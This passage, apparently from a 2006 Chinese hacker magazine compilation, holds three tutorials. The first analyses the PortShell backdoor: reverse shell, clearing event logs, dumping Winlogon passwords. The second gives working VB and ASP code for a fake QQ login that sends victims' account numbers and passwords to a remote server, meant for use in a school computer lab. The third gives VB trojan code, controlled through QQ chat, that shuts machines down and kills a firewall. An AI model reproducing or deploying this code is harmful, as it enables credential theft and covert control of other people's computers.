如果我们的目的只是写个Sniffer，那我们到这就可以打住了。但如果我们实现的是更高级的后门，那么战斗只是刚刚拉开序幕而已。下一步就是分析数据包，因为只有那些包含了带有关键的特征数据的数据库才能激活后门，就好像前面的比喻一样。PortShell的默认特征数据类似下面的格式 `dargun|192.168.0.1:1981`：
（1） dargun：特征激活字符串。
（2）|192.168.0.1:|（竖线）是反连IP标志，192.168.0.1是反连的IP。这个是可选的，如果你要的是正向连接的话，这个就可不要。
（3）:1981:”：“(冒号)是绑定的端口标志，1981是正向连接和反向连接指定的端口，这个是必须的。
如果分析得到的数据与预先设定的相符，那么PortShell后门就开启后门线程StartBackDoor(),根据控制端指定的方式(0->BindShell()或1->ReverseShell())来决定以哪种方式与控制端进行通信。无论采用的是BindShell()还是ReverseShell()，最后都一致的开启一个ClientThread()线程来实现真正的后门通信。不过这里PortShell()还采用了密码认证的哦，呵呵。我拿到的这份原程序默认的密码(在portshell.h的定义的ServerCFG结构里的)为：15 8 3 5 2 6 9 2。呵呵，猜不透这是什么，反正我是记不住，管他的，现在既然有源代码了，还不赶快改个属于自己的密码！
这一部分所分析的，可以归结为下面的流程。如图2所示。

#### 分析第三步

先发一下牢骚，几乎大部分的工具使用者都只关心我们现在将要分析的第三步，而对前两步不理不问，因为对他们来说，前面两步在使用过程中几乎等于“运行程序，输入IP和端口，等两秒钟，嘿嘿，出现C:\windows\system32>”，然后，其实对于一个后门或木马设计者来说，前面两步才是关键，他们的成功与否直接决定着后门的功能部分。
OK，牢骚发完了，那我们就进入大家最关心的后门功能部分了。不知道大家用过“WinEggDrop Shell”没有？这个后门的功能，那才叫一个绝。不过，PortShell实现的功能也不少，最重要的是，从PortShell提供的源代码可以看到，它几乎是可随意扩展的，呵呵，只要你有good idea，或你能实现某个BT的功能，你就可以很容易的加进去了。当然，这个是你自己的事啦，我就管不到了。我现在只能做的，就是分析一下PortShell后门实现的功能。先参看如图3所示。


通过该图，我们可以看到PortShell后门可以实现的功能很多，我们下面一个个分析，并分析每一个功能所用到关键函数和技术，以及讨论我个人认为的不足或者迷惑的地方。

- 1.AR() 程序作者的意思应该是Associate Register(关联注册表)，不过令我诧异的是，PortShell利用这个函数不是用来做“坏事”，反倒是用来帮助清除Trojan注册表关联键。呵呵，不知道作者本身什么用意，这里是我迷惑的一个地方。因为通常都是通过关联注册表来达到自启动木马后门程序的一个途径和方法。关联或修改注册表是后门及木马的常用伎俩，最重要的几个API是RegCreateKey(), RegQueryValueEx(), RegSetValueEx()。
- 2.Help()：一个好的后门软件，在线帮助是很重要的，利人利己(当然，不利于受害者)，这个就不多说了。
- 3.Exit()：以正确方式退出后门程序是必要的，除了释放资源外，还避免因为不正确的退出导致被控制端出现莫名的异常错误而导致后门的暴露。
- 4.Sysinfo()：难道你不关心肉鸡的系统信息和配置吗？下面列出获得这些信息的关键API(其实大家留意以前的黑，这些基本都被介绍过的)：

- 操作系统版本: GetVersionEx()
- CPU 信息: 通过查询注册表键HKEY_LOCAL_MACHINE\HARDWARE\DESCRIPTION\System\CentralProcessor\0
- 内存容量: GlobalMemoryStatus() (如果是1G的内存, 哈哈, 你做梦都会笑)
- 系统运行时间: GetTickCount()
- 系统目录: GetSystemDirectory()
- CPU数据: GetSystemInfo() (这里我觉得CPU数量不是很重要的, 反而SYSTEM_INFO的其他信息比如wProcessorArchitecture, wProcessorLevel等成员更重要些)
- 系统语言: GetSystemDefaultLangID()
- 磁盘驱动器信息: GetDriveType(), GetVolumeInformation(), GetDiskFreeSpaceEx()
- 显示器分辨率: GetDeviceCaps() (这个有用吗? 谁知道告诉我一声哈)

PortShell() 就包含了这么多系统, 其实还可以扩充, 这就根据你的需要和喜好, 往Sysinfo()里添加其他的系统信息就是了。

**5. PsList():** 列进程, 用来实现列进程的方法太多了, PortShell()用的是使用ToolHelp函数集来, 这也是目前比较流行的一种

```
CreateToolhelp32Snapshot () ->Process32First () -> Process32Next ()
```

**6. ModList():** 列模块, 和PsList()差不多

```
CreateToolhelp32Snapshot () ->Module32First () -> Module32Next ()
```

**7. PsKill():** 呵呵, 杀防火墙?关杀毒软件?你爱干吗干吗去。

```
OpenProcess() ->TerminateProcess()
```

包括PsList()和ModList()在内, 都要注意先提升自身权限哦。

```
OpenProcessToken () -> LookupPrivilegeValue() -> AdjustTokenPrivileges
```

获得了某种特殊权限, 才能对其他进程做手脚, 所以, 提升权限在黑客编程中用得很多很多!

**8. CleanEvent():** 清除日志文件.主要是针对“Application”,“Security”,“System”三种日志, 调用OpenEventLog() ->ClearEventLog()。嘿嘿, 想抓我尾巴, 没那么容易!

**9. GetUser():** 实现命令行下的Net User命令, PortShell()主要是调用了NetUserEnum(), 如果想获得更详细的信息, 可调用NetQueryDisplayInformation(), 尽可能地获得用户信息总不是一件坏事。

**10. DelUser():** NetUserDel(), 注意调用NetUserDel()前, 必须把传给该函数的第2个参数转换成宽字符串。呵呵, 这里我个人有疑惑, 为什么作者不添加AddUser()? 呵呵, 如果要添加网络用户, 可以调用NetUserAdd()。

**11. Wget():** 实现Http下载功能, 很简单的一个API: URLDownloadToFile(), 需要注意的是两个路径要设置好, 一个是要想下载的URL路径, 一个是下载后被下载程序所放置的位置, 一般都是系统目录, 即%windir%\system32 下。

**12. CmdShell():** 这里就是最一般后门都要实现的功能, 开一个Cmd窗口, 利用两个匿名管道进行通信。这个黑防介绍的太多了, 而且, 如果你读过WinShell后门源代码, 会发现, 两者在这个实现上几乎是一模一样的一的。下面列出关键API:

```
CreatePipe() ->CreateProcess() ->PeekNamedPipe() -> ReadFile() -> WriteFile()
```

**13. Shutdown/Reboot/Logoff:** 这三个功能都如出一辙

DebugPrivilege()获得关机权限(针对win2K以上系统, 如果是Windows 98, 是不需要提升权限的), 然后调用ExitWindowsEx(), 分别选择不同的选项EWX_POWEROFF | EWX_FORCE,EWX_REBOOT | EWX_FORCE和EWX_LOGOFF。

**14. ListIP():** 如果肉鸡是个多穴主机呢? 呵呵, 知道对方的IP总是一件有意义的事。

GetComputerName(), gethostname() -> gethostbyname()。呵呵, GetComputerName()和Gethostname()是有点区别的, 前者获得是本地主机的NETBIOS名, 后者则是本地主机的标准计算机名, 而且后者必须先调用WSAStartup()初始化Winsock库后才能调用成功。

**15. Execute():** 运行指定的应用程序, 用的是WinExec(),和ShellExecuteEx()差不多, 该函数虽然老, 有时候却很有用, 而且很方便, 如果不是运行有特别要求的程序, 可以放弃使用CreateProcess(), 这是个参数很多的函数。

**16. FindPass():** 该功能的实现比较复杂。PortShell后门实现了NT/2KB两种版本的查找密码, 思路是这样的: 先判断是NT系统还是2KB系统, 然后提升权限打开调试Winlogon进程, 通过查找Winlogon进程ID, 并进而在Winlogon进程中定位包含Password的内存块, 最后解码密码字符串。判断操作系统和提升权限用到的关键API可以参考4和7, 而查找Winlogon进程ID既可以采用PSAPI.DLL函数集来获得, 也可以采用NATIVE API的NtQuerySystemInformation()来得到, PortShell作者为了避免加载PSAPI.DLL, 所以选择了后者,在Winlogon进程中定位Password页是实现FindPass的关键, 步骤如下:

```
OpenProcess()->ReadProcessMemory()->VirtualQueryEx()->wcscicmp()
```

最后解码用户密码字符串, 注意NT/2KB之间在整个查找FindPass中的区别。具体大家还是详看源代码吧, 作者注释的很清楚了。当然, 如果想要查找更高级版本的, 比如Windows 2003的密码, 现在可以加上去了, 因为网上早已遍布了查找Windows 2003密码的源代码了。

**17. InstallTerm()/SetTermPort():** 终端服务器知道吧? 3389知道吧? 这两个功能可以安装终端服务器, 设置端口号和改变默认的端口号,这些都是通过下面操作注册表而实现的:

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\
```


#### 编程解析

栏目编辑：socket socket@hacker.com.cn

```
Services\TermService
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp
```

```
DelService()删除服务，OpenSCManager()=>OpenService
()=>QueryServiceStatus()=>ControlService()=>DeleteService()
```

18. EnumService()/ViewService()/DelService()：系统服务的讨论在黑防已经很多了，自从binghe开放了scvhost.dll后门源代码后其重要性在后门编程中占据的地位更是高高在上。关于服务方面PortShell实现的功能及关键的API如下

这里作者没有实现添加服务的功能，如果把后门作为系统服务或者以DLL的形式插入到系统服务，就好像BITS那样，岂不爽哉！
深叹一口气！到这，PortShell后门的编程基本上就分析完了。可以看到，设计一个优秀的木马或后门，首先要保证的是其高隐蔽性和稳定性，然后才是功能性和可扩展性。PortShell后门在这些方面有其优势，也稍有不足，但从学习的角度来说，它的确能给初学编写后门等黑软的爱好者很多借鉴和帮助，希望大家能够师夷长技，取其精华，为我所用，设计出属于自己的更为强大稳定的后门来。

```
EnumService枚举服务，OpenSCManager()=>
EnumServicesStatus()
ViewService()查看服务，OpenSCManager()=>OpenService
()=>QueryServiceConfig()
```


适合读者：QQ爱好者
前置知识：VB基础

## 在学校机房掀起一场QQ的风暴

文/图 飘叶它乡


### 前言若干

最近突然对QQ很感兴趣，要说来那是有原因的，看我的QQ号就知道了8位数，一串毫无意义的数字真叫人不敢相信我是个小菜鸟黑客，哈哈。大家知道6位QQ号码现在真是宝贝啊，腾讯那里卖188个Q币一个，我一个月的生活费比这多不了多少了。好了，“理由”还算充分，咱们……

- 地点：学校机房
- 理由：QQ来源广泛，更菜的鸟多得是。

### 资料收集

网上流行的盗QQ的软件主要有阿拉QQ大盗和强QQ盗，他们的功能都很强，支持大多数QQ版本，但是正是由于他们的流行导致杀毒软件对他们的大肆残杀，再者他们都是采用监控和收发邮件的方式获取QQ信息，需要开机自动启动，但是我们学校机房里装有硬件还原卡，杀毒软件也是最新版的瑞星。所以很难做到自启动，而且向外发邮件时会收到瑞星的警告。所以立志在机房“干大事”的人完全有理由自己写一个盗QQ的程序。

另外有一款很小的盗QQ软件，叫做“盗QQ的老鼠”，他假冒成真的QQ界面，采用骗的方式，当你输入号码和密码点登录时，就提示系统内部错误，然后就记录下了你所输入的QQ号码和密码，并保存在一个文件里。思路还可以，但是我粗粗地看了一下，真的是做的太潦草了，不说把QQ信息保存在本地电脑上有多明显吧，单看那界面也太不像了，让人不得不说它是假的。

了，不说把QQ信息保存在本地电脑上有多明显吧，单看那界面也太不像了，让人不得不说它是假的。

### 编程思路

有缺陷才有进步，我们先理理自己的思路吧，我们也来骗吧，毕竟要做成监控方式盗QQ的软件不是一件Easy的事。我们在界面上当然要和真实QQ一样了，采用结合ASP后台的方式盗取信息。采用这种方式有一个很明显的优点，那就是防火墙、杀毒软件和一些系统安全监控软件不会向用户发出任何提示，因为我们实际上是在访问一个网页。

所谓ASP后台收集信息，就是将我们获取的QQ信息通过参数的方式传递给远程网站上的ASP后台程序，该ASP程序接收到我们的参数后，进行处理后，就写进数据库里。这就如同我们在哪个论坛里注册，填好信息后点击确定，就会将我们填写的内容保存到数据库里。如此我们就可以通过网页将QQ信息显示出来了，不用像“盗QQ的老鼠”那样要去查看那个记录密码的文件，是不是很方便啊？

### 边学边做

有了思路就可以动工了，还是用我较熟悉的VB编写这个程序吧。
运行VB后，新建一个工程，就命名为QQ.vbp吧。添加一个窗体，界面模拟成真实QQ的界面，下面是我做的界面，怎么样，很像吧？如图1所示。

www.hacker.com.cn
2006精华本 下册

## 编程解析 PROGRAMMING ANALYSE

栏目编辑：socket socket@hacker.com.cn


图1

接着对登录按钮进行编程，双击进入代码窗口。
代码及简单说明如下：

```vb
Private Sub Command1_Click()
On Error Resume Next
'取得QQ号码
QQNum = ComboNum.Text
'进行简单的判断
If QQNum = "" Then
MsgBox "请输入QQ号码。"
End If
'生成信息串
ResultTXT = CStr(QQNum + ":" + QQpwd)
ResultTXT = ResultTXT + ":" + CStr(Now())
'生成网址，用于提交，提交函数为WTWeb()
URL2 = cstr("http://www.xxx.com/xx.asp?QQNum="+QQNum+"&"+"QQPwd="+QQPwd)
'提示出错
ret = MsgBox("你所输入的密码和上一次的不同，是否到服务器验证?", vbYesNo + vbCritical, "错误")
If ret = vbYes Then
'启动真实的QQ，QQtrue为真实的QQ文件名
'APPPath为程序所在路径
ret2 = Shell(APPPath & QQtrue + ".exe", vbNormalFocus)
'隐藏假的QQ窗体
Me.Visible = False
'向ASP后台提交参数
Call WTWeb(CStr(URL2))
Else
'选择否时不启动真实QQ
Me.Visible = False
Call WTWeb(CStr(URL2))
End If
End Sub
```

接着在窗体中添加一个WebBrowser控件，visible属性设为False。编写函数WTWeb()。

```vb
'提交QQ信息到指定的ASP后台
Function WTWeb(URL2 As String)
WebBrowser1.Navigate (URL2)
End Function
```

这里还需要生成URL2，这样WebBrowser浏览的时候就相当于向远程ASP后台提交了参数。我们就直接将QQ号码和密码作为两个参数传递过去。URL2的形式如http://www.xxx.com/qshow.asp?QQNum=xxx&QQPwd=xxx，用qshow.asp接受数据，下面需要编写相应的后台程序qshow.asp。

数据库连接段代码为：

```asp
<%
dim conn,strconn
strconn = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath("QQ.mdb")
set conn = server.createobject("adodb.connection")
conn.open strconn
%>
```

其中QQ.mdb为存放QQ信息的数据库，里面只有一个表，表名为QQinfo。我们这里只需要id,QQNum,QQPwd,Time这几个字段，Time用于记录盗取到这个QQ号码的时间。将提交的参数写入数据库的代码如下：

```asp
<%
if request("QQNum")<>"" and request("QQPwd")<>"" then
sql="select * from QQinfo"
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,1,3
rs.addnew
rs("QQNum")=request("QQNum")
rs("QQPwd")=request("QQPwd")
rs("Time")=Now()
rs.update
rs.close
set rs=nothing
response.redirect "qshow.asp"
end if
%>
```

其他代码很简单，我也不想多说了。到这里一个盗QQ的软件的基本功能已经完成了，在程序包里，我加入了上传QQ信息到FTP空间的功能，而且可以配置程序，增强了程序的适应性，后台ASP文件也给大家准备好了，要提交密码才能查看，要怎么弄看大家自己发挥了。
好了，万事俱备，只欠暴风。去机房了，风暴即将来临，本人“阴笑”中……

### 结语

制作自己的工具其实很简单，只要你肯研究，多动脑筋。当我们用别人的软件，发现有什么问题时，要想想怎样才能消除这个问题，开发出更方便有效的工具来，而不是走别人铺好的路。
现在忙着做毕业设计，文章和软件做得很匆忙，一定有很多不足之处，还望大家发现什么问题来和我一起讨论。大家也可根据自己的喜好修改并扩充它的功能，亲手体验一下自己动手的成就感！

适合读者：VB程序员，木马爱好者
前置知识：VB及Api基础知识

## QQ远程控制任我行

文/图 smallrascal

相信用过QQ远控精灵和QQ远控任我行这两款QQ远程控制的都会觉得很有意思，而且一定认为使用很简单，不过我肯定还有一部分朋友没有用过，甚至没有听说过，那还是先让我引用其开发者的一段功能简介吧。

完全免费且绿色小巧、无须安装的远程控制软件，并能够渗透到局域网中，即网吧、单位、小区中进行控制。
软件主要具有以下功能。

1. 操作简单，容易上手，会用QQ即会用本软件进行控制。
2. 软件小巧，便于传输，占用系统资源很少。
3. 支持QQ2003版和最新QQ2005版本。
4. 实现了进入局域网中，即网吧、单位、小区中控制。
5. 无须控制端，只须QQ即可控制对方的电脑。
6. 使用常用语句控制，不须生成代码，在聊天中不知不觉地控制。

看了上面的，心里一定痒痒了吧！本文就带着大家去做一款只属于自己的远程控制软件，是不是很刺激啊！
还是老规矩，先说一下思路。其实真的很简单，就是那薄薄的一层纸而已，戳穿了就什么都明了。现今虽然语音、视频聊天方式都出现了，但是因为带宽的问题，绝大部分还是基于字符与图片，这就为我们提供了一个很好的利用对象——字符，上面的两个程序就是利用了这个，在主控端生成控制命令字符，然后通过QQ发给对方，而在被控端则是通过程序时刻监视着聊天窗口，一发现有主控端发来的命令字则去执行事先定义好的程序，就这么简单，只不过难点在于如何取得聊天窗口中的字符，下面就用具体的代码来说明具体的方法。

### QQ远程控制被控端编写

#### 获取并判断当前窗口

这一步，先获取当前窗口的句柄，然后根据得到的句柄获取此窗口的标题，最后判断是否是聊天窗口。我们用到的几个系统提供的API是 GetForegroundWindow，GetWindowTextLength，GetWindowText。
具体代码如下，就不多说了。

```
‘获取当前窗口句柄
QQMessageWindowWnd = GetForegroundWindow()
‘获取当前窗口标题的长度
QQWinText = String(GetWindowTextLength(QQMessageWindowWnd) + 1, Chr$(0))
‘获取当前窗口标题
```

```
Call GetWindowText(QQMessageWindowWnd, QQWinText, Len(QQWinText))
‘判断是否是QQ窗口
If ((InStr(1, QQWinText, "聊天中") <> 0) Or ((InStr(1, QQWinText, "查看消息") <> 0)) Or ((InStr(1, QQWinText, "系统消息") <> 0)) Then
Debug.Print "找到QQ窗口！" & Time()
Else
Debug.Print "未找到QQ窗口！" & Time()
End If
```

#### 获取聊天窗口句柄

在这个过程中，我们必须知道要获取对象的类名，正所谓“知己知彼方可百战不殆”，下面就让我们一步步来获取对应的类名及窗口标题。我们都知道QQ有聊天模式和消息模式两种聊天窗口，上面的两款程序都是针对这个写的，但是如果对方不在你的QQ好友列表中，那就没有办法控制，在这里我添加了这种方式，用查找添加QQ好友的功能就可以了。

1. “与XXX聊天中”窗口与“XXX—查看消息”窗口
如图1所示，其中头像及昵称以下、QQ快捷工具栏以上就是获取字符的部分。


用微软提供的SPY++查找该部分的句柄，如图2所示，发现它是整个聊天窗口的二级子窗口。
既然是二级子窗口，那就必须找到其父窗口，然后在代码中通过遍历父窗口下的所有子窗口来获取它的句柄，如图3所示。这就是其父窗口的类名和窗口标题。
记下图2与图3中的窗口类名和标题，下面的代码需要用到。


黑客防线 www.hacker.com.cn
2006精华奉献本 下册

## PROGRAMMING ANALYSE

》栏目编辑 》 socket@socket.hacker.com.cn

“×××—查看消息”窗口中有字符的那部分就是了，也一个二级子窗口，如图4所示，因此同样需要利用上面的方法，这里就不再多罗嗦了！

2．“系统消息”窗口
如图5所示，有字符的那个部分是系统消息窗口，这里不是上面那两种聊天窗口，而是消息验证窗口。

同样利用SPY++获取其句柄，发现是一个一级子窗口，和上面的两个不同，所以在下面的代码中的实现方式也是不一样的，但是同样要获取其父窗口并记下，如图6，图7所示。


口，这样再用FindWindowEX查找句柄就可以了。然而图5的窗口则不同，在图6中可以看到是属于一级子窗口，直接可以用FindWindowEX。这里的窗口遍历获取标题与查找句柄都要用到上面让大家记下的窗口类名和标题了。代码如下：

```vb
' 判断当前是否为 “与×××聊天中” 窗口（图1） 家记下的窗口类名和标题了。代码如下：
If (InStr(1, QQWinText, "聊天中") <> 0) Then
    ' 是则遍历窗口查找 “聊天记录（H）” 按钮的句柄，
    ' 这里的EnumChildProc 过程是自编的，下面给出
    EnumChildWindows QQMessageWindowWnd, AddressOf EnumChildProc, ByVal 0&
    ' 获取二级子窗口的句柄
    QQMessageRichEditWnd = FindWindowEx(QQButtonHwnd, ByVal 0&, "RichEdit20A", vbNullString)
End If
' 判断当前是否为 “×××一查看消息” 窗口（图4）
If (InStr(1, QQWinText, "查看消息") <> 0) Then
    EnumChildWindows QQMessageWindowWnd, AddressOf EnumChildProc, ByVal 0&
    QQMessageRichEditWnd = FindWindowEx(QQButtonHwnd, ByVal 0&, "RICHEDIT", vbNullString)
End If
' 判断当前是否为 “系统消息” 窗口（图5）
If (InStr(1, QQWinText, "系统消息") <> 0) Then
    ' 是则获取一级子窗口的句柄
    QQMessageRichEditWnd = FindWindowEx(QQMessageWindowWnd, ByVal 0&, "RICHEDIT", vbNullString)
End If
Debug.Print "消息框 " + Trim(QQMessageRichEditWnd)
```

以下代码必须放在标准模块中，因为上面是通过AddressOf调用的，否则程序可能崩溃！

```vb
' 以下为EnumChildProc过程
Public QQButtonHwnd As Long ' “聊天记录（H）” 按钮的句柄变量

Public Function EnumChildProc(ByVal hwnd As Long, ByVal lParam As Long) As Long
    Dim sSave As String ' 窗口标题变量
    ' 获取窗口标题长度
    sSave = Space$(GetWindowTextLength(hwnd) + 1)
    ' 根据窗口句柄获取标题
    GetWindowText hwnd, sSave, Len(sSave)
    ' 截取窗口标题字符串
    sSave = Left$(sSave, Len(sSave) - 1)
    ' 判断字符串是否为空且是否为 “ 聊天记录（&H）” （即“聊天记录（H）” 按钮的标题）
    If sSave <> "" And sSave = "聊天记录(&H)" Then
        ' 是则获取当前子窗口的上一级窗口
        QQButtonHwnd = GetParent(hwnd)
        ' 找到即终止遍历
        EnumChildProc = 0
    Else
        ' 不是则继续遍历窗口，直到所有窗口都结束
        EnumChildProc = 1
    End If
End Function
```

### 思想与具体代码

因为二级子窗口不能直接利用FindWindowEX查找句柄，所以必须另想办法。大家注意图1 和图4中有一个“聊天记录(H)”的按钮，再看图2，发现与我们要查找的窗口在同一个级，然而我们要找的那个窗口是没有标题的，按钮则不同，到这里有没有想到什么了，对，就是利用标题来获取“聊天记录（H）”的按钮的句柄，然后向上一级，也就我们要找的那个东东的父窗口，这样再用FindWindowEX查找句柄就可以了。然而图5的窗口则不同，在图6中可以看到是属于一级子窗口，直接可以用FindWindowEX。这里的窗口遍历获取标题与查找句柄都要用到上面让大家记下的窗口类名和标题了。代码如下：

### 获取并判断命令控制字

根据上面获取到的句柄用SendMessage API获取聊天窗口中的字符，然后判断有没有命令控制字在其中，有则调用相应的指令。具体代码如下：

www.hacker.com.cn
2006 精华奉献本 下册


```
Public Const WM_GETTEXT = &HD '获取窗口字符的系统消息常量
Public QQMessageRichEditTextBak As String '获取字符串变量

Private Sub Form_Load()
    '初始化字符串变量为35000个空格，这是QQ聊天窗口的字符极限
    QQMessageRichEditTextBak = Space(35000)
End Sub

Private Sub Timer1_Timer()
    '调用SendMessage获取聊天窗口中的字符
    Call SendMessage(QQMessageRichEditWnd, WM_GETTEXT, Len(QQMessageRichEditText), ByVal QQMessageRichEditText)
    '判断是否是上一次的命令
    If (Trim(QQMessageRichEditTextBak) = Trim(QQMessageRichEditText)) Then
        '是上一次的命令
        Exit Sub
    Else
        '不是上一次的命令
        QQMessageRichEditTextBak = Trim(QQMessageRichEditText)
        Debug.Print "消息：" + Right(Trim(QQMessageRichEditText), 15)
        '判断命令
        '关闭机器
        If (InStr(1, Right(Trim(QQMessageRichEditText), 15), "=ShutDown=") <> 0 Then
            Flag = "=ShutDown="
        End If
        'MessageBox消息框
        If (InStr(1, Right(Trim(QQMessageRichEditText), 15), "=Message=") <> 0 Then
            Flag = "=Message="
        End If
        '关闭被控端
        If (InStr(1, Right(Trim(QQMessageRichEditText), 15), "=ClosePro=") <> 0 Then
            Flag = "=ClosePro="
        End If
        '关闭天网防火墙
        If (InStr(1, Right(Trim(QQMessageRichEditText), 15), "=CloseWindows=") <> 0 Then
            Flag = "=CloseWindows="
        End If
    End If
    '执行命令
    Select Case Flag
        Case "=ShutDown=" '关闭机器
            Call ShutDown
        Case "=Message=" 'MessageBox消息框
            MsgBox "警告！"
        Case "=ClosePro=" '关闭被控端
            End
        Case "=CloseWindows=" '关闭天网防火墙
            Call CloseWindows
        Case Else
            Debug.Print "错误命令！"
    End Select
End Sub
```

至此，查找QQ聊天窗口并获取其中的字符全部完成，下面简单介绍一些上面程序中实现的功能。

### 关闭天网防火墙

如果对方的系统中运行了防火墙，你将如何处理？相信一定是将其关闭。这里以天网防火墙为例。首先还是用SPY++获取天网防火墙的窗口标题及类名，如图8所示，将其记下。


在如图8所示中我们可以看到天网防火墙的窗口是父窗口，不需要使用上面的遍历窗口，直接使用FindWindow加上其窗口标题及类名就可以直接找到，然后用PostMessage将其窗口关闭，进程在窗口关闭的同时也被结束了，这样就达到了终止防火墙的目的。具体代码如下：

```
Public Const WM_CLOSE = &H10 '根据句柄关闭窗口的系统消息常量
'关闭指定窗口的过程
Public Sub CloseWindows()
    Dim WindowsHwnd As Long '指定窗口句柄变量
    '获取“天网防火墙”窗口的句柄
    WindowsHwnd = FindWindow(vbNullString, "天网防火墙个人版")
    '判断“天网防火墙”是否执行
    If WindowsHwnd <> 0 Then
        '已经执行则调用PostMessage将其关闭
        Call PostMessage(WindowsHwnd, WM_CLOSE, 0, 0)
    End If
End Sub
```

### 关闭系统

这个功能实现一定要注意NT核心和非NT核心，因为其关闭方式是不一样的。NT核心的系统需要进入进程环取得足够的权限才可以关闭系统，而非NT核心的则不需要。其它的就不多说了，没有什么难点，直接给出相应的代码：

```
Private Type LUID
    UsedPart As Long
    IgnoredForNowHigh32BitPart As Long
End Type

Private Type TOKEN_PRIVILEGES
    PrivilegeCount As Long
    TheLuid As LUID
    Attributes As Long
End Type

Private Declare Function GetCurrentProcess Lib "kernel32" () As Long
Private Declare Function OpenProcessToken Lib "advapi32" (ByVal ProcessHandle As Long, ByVal DesiredAccess As Long, TokenHandle As Long) As Long
Private Declare Function LookupPrivilegeValue Lib "advapi32" Alias "LookupPrivilegeValueA" (ByVal lpSystemName As String, ByVal lpName As String, lpLuid As LUID) As Long
Private Declare Function AdjustTokenPrivileges Lib "advapi32" (ByVal TokenHandle As Long, ByVal DisableAllPrivileges As Long, NewState As TOKEN_PRIVILEGES, ByVal BufferLength As Long, PreviousState As TOKEN_PRIVILEGES, ReturnLength As Long) As Long

Const EWX_FORCE = 4 '强迫中止没有响应的进程
```

## PROGRAMMING ANALYSE

> 栏目编辑 > socket > socket@hacker.com.cn

```
Const EWX_LOGOFF = 0 '中止进程，然后注销
Const EWX_POWEROFF = 8 '关掉系统电源（如果可能的话，ATX 电源就可以）
Const EWX_REBOOT = 2 '重新引导系统
Const EWX_SHUTDOWN = 1 '关闭系统
Sub AdjustToken()
    Const TOKEN_ADJUST_PRIVILEGES = &H20
    Const TOKEN_QUERY = &H8
    Const SE_PRIVILEGE_ENABLED = &H2
    Dim hdlProcessHandle As Long
    Dim hdlTokenHandle As Long
    Dim tmpLuid As LUID
    Dim tkp As TOKEN_PRIVILEGES
    Dim tkpNewButIgnored As TOKEN_PRIVILEGES
    Dim lBufferNeeded As Long
    hdlProcessHandle = GetCurrentProcess()
    OpenProcessToken hdlProcessHandle, (TOKEN_ADJUST_PRIVILEGES Or TOKEN_QUERY), hdlTokenHandle
    LookupPrivilegeValue "", "SeShutdownPrivilege", tmpLuid
    tkp.PrivilegeCount = 1
    tkp.TheLuid = tmpLuid
    tkp.Attributes = SE_PRIVILEGE_ENABLED
    AdjustTokenPrivileges hdlTokenHandle, False, tkp, Len(tkpNewButIgnored), tkpNewButIgnored, lBufferNeeded
End Sub
Sub ShutDown()
    Call AdjustToken '非 NT 核心的可以不用，NT 核心必须要用
    ExitWindowsEx EWX_POWEROFF + EWX_FORCE, 0
End Sub
```

### ◎◎远程控制主控端◎◎

相信有了上面的开发经验，这一步也不会难倒大家了。主控端只要生成对应的命令控制字，然后复制到剪贴板即可。还是老规矩，先给出要使用控件的布局，如图 9 所示，及属性如下表所示。


| 对象 | 属性名 | Name | Caption | Text | Enabled |
| --- | --- | --- | --- | --- | --- |
| 组合框 ComboBox | ComboCommand | 无 |  | 请选择命令！ | True |
| 命令按钮 CommandButton | cmdCopy | 复制到剪贴板 | 无 |  | False |
| 命令按钮 CommandButton | cmdEnd | 退出 | 无 |  | True |

#### ◎ 初始化 ◎

在程序开始时，定义变量及添加控制命令字提示，代码如下：

```
'定义控制命令字变量
Dim Flag As String

Private Sub Form_Load()
    '初始化组合框，添加控制命令字
    ComboCommand.AddItem "关闭对方计算机系统！"
    ComboCommand.AddItem "打开消息对话框予以警告！"
    ComboCommand.AddItem "关闭对方天网防火墙！"
    ComboCommand.AddItem "关闭对方被控端程序！"
    '清空控制命令字变量，防止使用上一次的命令字
    Flag = ""

    '如果没有选择命令字，则“复制到剪贴板”按钮无效，防止产生错误指令
    cmdCopy.Enabled = False
End Sub
```

#### ◎生成控制命令字 ◎

选择组合框中相应的提示选项产生对应的索引号，根据索引号选择对应的控制命令字并复制到剪贴板，然后给出提示，便于使用者核对。这里要说明的是组合框的索引号是固定的，但是给出的选项是可以自己定义的。

```
'生成命令控制字
Private Sub ComboCommand_Click()
    '获取组合框的索引号
    Select Case ComboCommand.ListIndex
        '为 0 则是选择的关闭系统
        Case 0
            Flag = "=ShutDown="
        '为 1 则是弹出消息框
        Case 1
            Flag = "=Message="
        '为 2 则是关闭天网防火墙
        Case 2
            Flag = "=CloseWindows="
        '为 3 则是关闭被控端
        Case 3
            Flag = "=ClosePro="
        '其它则什么都不做
        Case Else
            Flag = ""
    End Select
    '判断是否选择了相应的命令控制字
    If Flag <> "" Then
        '如果已选择则将“复制到剪贴板”按钮激活，并给出提示
        cmdCopy.Enabled = True
        lblCommand.Caption = "命令代码是：" + Flag
    Else
        '否则将“复制到剪贴板”按钮设为无效
        cmdCopy.Enabled = False
        lblCommand.Caption = "没有选择命令，请重新选择！"
    End If
    Debug.Print Flag
End Sub
'将命令控制字复制到剪贴板
Private Sub cmdCopy_Click()
    '清空剪贴板，防止使用非法命令
    Clipboard.Clear
    '将命令控制字复制到剪贴板
    Clipboard.SetText (Flag)
    '给出提示，用于核对
    lblCommand.Caption = "命令代码" + Flag + "" 复制完毕！" + vbCrLf + "请在 QQ 的消息框中单击右键，选择粘贴！" + vbCrLf + "一定要放在消息的最后！"
End Sub
```

至此，整个程序完成，剩下的只要将主控端和被控端联合起来编译调试即可啦！一个属于自己的QQ远程控制软件就这么诞生了！

### 写在最后

本程序没有什么高深的技术，只是抛砖引玉。从程序本身出发还有很多不足，如传输的控制命令字是明文的，这样很容易被发现；虽然窗口隐藏了，但是进程没有隐藏，结束它是轻而易举的；只能关闭天网防火墙，像瑞星、毒霸等没有加进去。这些对于一个好的远程控制软件来说是来说是可不缺的，所以呢，就留给大家作为家庭作业吧！还有与陌生人聊天的窗口，也是可以“利用”的哦！ //

www.hacker.com.cn

黑客X档案 2006 精华奉献本 下册

适合读者: 程序员, 黑客爱好者
前置知识: C/C++基础

# # 字符串间的对抗

文/图 全金属外壳

